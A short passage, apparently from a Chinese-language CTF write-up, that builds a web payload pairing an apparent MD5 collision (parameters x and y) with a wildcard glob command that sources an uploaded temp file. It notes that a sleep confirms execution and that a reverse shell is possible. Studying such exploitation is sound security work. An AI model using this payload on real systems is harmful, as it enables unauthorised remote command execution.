 这里笔者取“>”，完整的正则写为[\>-[]。

构造Payload：

> x=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&y=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2&code=`.%20/???/????????[\>-[]`

如图：

![](img/87cce9e5e5c9c78090b5fb651eace24d.png)

睡眠3秒，这里可以直接反弹shell。

![](img/402f7332dc5ae67e1ab620edb86934fe.png)
